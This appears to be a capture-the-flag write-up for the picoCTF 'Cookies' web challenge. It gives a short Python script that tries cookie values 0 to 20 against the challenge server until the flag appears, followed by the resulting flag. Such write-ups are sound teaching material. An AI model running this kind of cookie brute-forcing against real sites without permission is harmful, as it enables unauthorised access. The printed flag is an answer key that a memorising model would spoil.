 # Cookies
Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:29649/](http://mercury.picoctf.net:29649/)

Hints:

## Solución

``` python
import requests
import re

url = "http://mercury.picoctf.net:29649/check"
for i in range(21):
        cookies = {"name":"{}".format(i)}
        r = requests.get(url, cookies=cookies)
        if "picoCTF{" in r.text:
                flag = re.findall("picoCTF\{.*\}", r.text)[0]
                print(flag)

```

``` bash
holiwiscach@ubuntu:~$ python3 exp.py 
picoCTF{3v3ry1_l0v3s_c00k135_a1f5bdb7}

```
`picoCTF{3v3ry1_l0v3s_c00k135_a1f5bdb7}`